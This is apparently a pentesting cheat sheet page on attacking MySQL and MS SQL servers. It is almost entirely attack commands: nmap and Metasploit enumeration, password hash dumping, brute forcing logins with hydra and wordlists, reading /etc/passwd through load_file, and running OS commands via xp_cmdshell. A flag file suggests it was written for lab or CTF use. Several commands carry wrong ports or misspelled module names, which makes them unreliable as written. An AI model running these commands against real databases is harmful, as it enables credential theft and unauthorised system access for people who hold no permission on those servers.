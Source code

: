 ```yaml
---
description: 1433 - MS Sql, 3306 - Linux
---
```


# v - MySQL - 1433,3306

`nmap $ip -sV -p3306` - basic enumeration.

`mysql -h $ip -u root` - lets try to login with "root".

### Using Metasploit

```bash
# 1
use auxiliary/scanner/mysql/mysql_writable_dirs
show options
set dir_list /usr/share/metasploit-framework/data/wordlists/directory.txt
setg rhosts $ip
show advanced
set verbose false
set username root
set password ""
options
run

# 2
# dumping hashed of users in the db
use auxiliary/scanner/mysql/mysql_hashdump
options
set username root
set password ""
exploit
```

## Accessing System FIles from MySql

```sql
# 1
# when you successfully login into victim mysql db
# outputs the /etc/passwd file.
select load_file('/etc/passwd');

```

## Using Nmap to check for Accounts with no passwords

`nmap $ip -sV -p3306 --script=mysql-empty-password` - finds accounts that require no password for authentication.

`nmap $ip -sV -p3306 --script=mysql-info` - outputs info about the db.

`nmap $ip -sV -p3306 --script=mysql-users --script-args="mysqluser='root',mysqlpass=''"` - enumerate users in the db.

`nmap $ip -sV -p3306 --script=mysql-databases --script-args="mysqluser='root',mysqlpass=''"` - enumerate databases.

`nmap $ip -sV -p3306 --script=mysql-variables --script-args="mysqluser='root',mysqlpass=''"` - enumerate variables.&#x20;

`nmap $ip -sV -p3306 --script=mysql-audit --script-args="mysql-audit.user='root',mysql-audit.password='',mysql-audit.filename='/usr/share/nmap/nselib/data/mysql-cis.audit'"` - auditing the db.

`nmap $ip -sV -p3306 --script=mysql-dump-hashes --script-args="username='root',password=''"` - dumps hashes (hashdump).

## Dictionary Attacks (brutefrocing creds)

### \[msfconsole] Metasploit

```bash
# bruteforcing with metasploit
use auxilary/scanner/mysql/mysql_login
set rhosts $ip
set pass_file usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
set verbose false
set stop_on_success true
set username root
run
```

### \[hydra] utility

`hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt $ip mysql` - run the attack.



## Microsoft  SQL  nmap scripts

`nmap $ip -p1433 --script ms-sql-info` - enumerate the ms-sql server version.

`nmap $ip -p1433 --script ms-sql-ntlm-info --script-args  mssql.instance-port=1433`  - enumerate ms-sql ntlm info.

`nmap $ip -p3306 --script ms-sql-brute --script-args userdb=/path_to_wordlist,passdb=/path_to_wd` - brute forcing.

`nmap $ip -sV -p1433 --script=ms-sql-empty-password` - finds accounts that require no password for authentication.

`nmap $ip -sV -p3306 --script=ms-sql-query --script-args mssql.username=admin,mssql.password=dking,ms-sql-query.query="SELECT * FROM <table_name>..syslogins" -oN output.txt` - performs a query

`nmap $ip -sV -p3306 --script=ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anabell` - hashdump

`nmap $ip -sV -p3306 --script=ms-sql--xp-cmdshell --script-args mssql.username=admin,mssql.password=anabell,ms-sql-xp-cmdshell.cmd="ipconfig"` - run a query that executes the "ipconfig" cmd.

`nmap $ip -sV -p3306 --script=ms-sql--xp-cmdshell --script-args mssql.username=admin,mssql.password=anabell,ms-sql-xp-cmdshell.cmd="type c:\flag.txt"` - run a query that reads the content of the "flag.txt" file.

## Microsoft  SQL enumeration with Metasploit

```bash
# 1
# enumerare list of users creds.
use auxiliary/sscanner/mssql/mssql_login
setg rhosts $ip
set user_file /wordlist_path
set pass_file /common-passwords.txt
set verbose false
run

# 2
use auxiliary/admin/mssql/mssql_exec
set cmd whoami
options
run 

# 3
use auxiliary/admin/mssql/mssql_enum_domain_accounts
exploit
```











